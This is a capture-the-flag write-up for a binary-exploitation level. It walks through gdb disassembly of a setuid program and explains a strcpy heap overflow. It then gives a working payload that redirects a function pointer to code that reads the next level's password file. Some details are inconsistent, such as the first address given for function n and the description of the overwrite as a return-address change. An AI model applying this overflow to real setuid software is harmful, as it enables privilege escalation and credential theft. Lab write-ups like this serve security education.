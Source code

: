 # Level 6

## First clue
- once logged in as level6 we find again an executable  owned by `level7` 
- we try to execute it without arguments and we get a segfault
- if we write one or more alpha and numeric argiments, we get back `Nope`

## Inspect with gdb
- Info function reveals main, n and m functions, but also a system call, malloc and strcpy. 
```
0x080482f4  _init
0x08048340  strcpy
0x08048340  strcpy@plt
0x08048350  malloc
0x08048350  malloc@plt
0x08048360  puts
0x08048360  puts@plt
0x08048370  system
0x08048370  system@plt
0x08048380  __gmon_start__
0x08048380  __gmon_start__@plt
0x08048390  __libc_start_main
0x08048390  __libc_start_main@plt
0x080483a0  _start
0x080483d0  __do_global_dtors_aux
0x08048430  frame_dummy
0x08048454  n
0x08048468  m
0x0804847c  main
0x080484e0  __libc_csu_init
0x08048550  __libc_csu_fini
0x08048552  __i686.get_pc_thunk.bx
0x08048560  __do_global_ctors_aux
0x0804858c  _fini

```
## Main
```
    0x0804847c <+0>:	push   %ebp
   0x0804847d <+1>:	mov    %esp,%ebp
   0x0804847f <+3>:	and    $0xfffffff0,%esp
   0x08048482 <+6>:	sub    $0x20,%esp
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   0x080484a5 <+41>:	mov    $0x8048468,%edx
   0x080484aa <+46>:	mov    0x18(%esp),%eax
   0x080484ae <+50>:	mov    %edx,(%eax)
   0x080484b0 <+52>:	mov    0xc(%ebp),%eax
   0x080484b3 <+55>:	add    $0x4,%eax
   0x080484b6 <+58>:	mov    (%eax),%eax
   0x080484b8 <+60>:	mov    %eax,%edx
   0x080484ba <+62>:	mov    0x1c(%esp),%eax
   0x080484be <+66>:	mov    %edx,0x4(%esp)
   0x080484c2 <+70>:	mov    %eax,(%esp)
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:	mov    0x18(%esp),%eax
   0x080484ce <+82>:	mov    (%eax),%eax
   0x080484d0 <+84>:	call   *%eax
   0x080484d2 <+86>:	leave  
   0x080484d3 <+87>:	ret    


```
- Disassemblying main we find out that it exposes a buffer flow vulnerability using a not protected strcpy:  strcpy is called to copy a string pointed to by %edx into the buffer allocated by malloc, whose address is stored in %eax. The problem with this code is that strcpy does not check the size of the destination buffer. It simply copies bytes from the source string until it encounters a null terminator (\0). If the source string is larger than the destination buffer, it will overflow the buffer.

## Function m

- it does nothing but call puts

## Function n (not called anywhere)
```
   0x08048454 <+0>:	push   %ebp
   0x08048455 <+1>:	mov    %esp,%ebp
   0x08048457 <+3>:	sub    $0x18,%esp
   0x0804845a <+6>:	movl   $0x80485b0,(%esp)
   0x08048461 <+13>:	call   0x8048370 <system@plt>
   0x08048466 <+18>:	leave  
   0x08048467 <+19>:	ret 

```
- interesting, it contains a system call.
If we inspect the argument passed to the system call we get this:
```
(gdb) x/s 0x80485b0
0x80485b0:	 "/bin/cat /home/user/level7/.pass"
```
- this is the reason why we need to find a way to execute function n.
- Function n addressn as it appears in `info function` is `0x08048468`
- if we find the offset of the buffer of strcpy in main and place in the return of main the address of n, insteadd of returning we execute the n function.

## Exploit
- to find the offset of the strcpy buffer we run the program in gdb passing as argument a long string made of set of 4 char (in 32 bit architecture alignement memory addresses are divisible by 4) of the alphabet, lower and uppercase:
```
(gdb) run "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz'
```
- we get `Program received signal SIGSEGV, Segmentation fault.
0x53535353 in ?? ()`
- 53 is the ASCII for "S" at position 73, so the end of the buffer is at position 72 => `echo "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRS" | grep -o .  |  wc -l`
- we store in /tmp/exploit 72 letters + the address of n function (reversed for little endian) and pass /tmp/exploit as argument to ./level6
- `python -c 'print "a"*72+"\x54\x84\x04\x08"' > /tmp/exploit`
- `./level6 $(cat /tmp/exploit)`
- we get the flag